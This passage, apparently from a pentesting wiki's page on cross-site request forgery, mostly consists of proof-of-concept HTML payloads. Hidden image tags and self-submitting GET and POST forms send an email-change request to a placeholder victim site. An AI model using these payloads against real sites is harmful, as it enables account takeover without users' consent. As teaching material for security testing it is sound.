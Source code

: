 #### CSRF map

[![img](https://github.com/carlospolop/hacktricks/raw/master/.gitbook/assets/image%20(112).png)](https://github.com/carlospolop/hacktricks/blob/master/.gitbook/assets/image (112).png)

#### **Exploit Examples**

##### **Exfiltrating CSRF Token**

If a **CSRF token** is being used as **defence **you could try to **exfiltrate it **abusing a [**XSS**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/#xss-stealing-csrf-tokens) vulnerability or a [**Dangling Markup**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/dangling-markup-html-scriptless-injection.md) vulnerability.

##### **GET using HTML tags**

```
<img src="http://google.es?param=VALUE" style="display:none" />
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```

Other HTML5 tags that can be used to automatically send a GET request are:

[![img](https://github.com/carlospolop/hacktricks/raw/master/.gitbook/assets/image%20(530).png)](https://github.com/carlospolop/hacktricks/blob/master/.gitbook/assets/image (530).png)

##### Form GET request

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method="GET" action="https://victim.net/email/change-email">
      <input type="hidden" name="email" value="some@email.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

##### Form POST request

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://victim.net/email/change-email" id="csrfform">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
      <input type="submit" value="Submit request" />
      <img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
    </form>
    <script>
      document.forms[0].submit(); //Way 3 to autosubmit
    </script>
  </body>
</html>
```
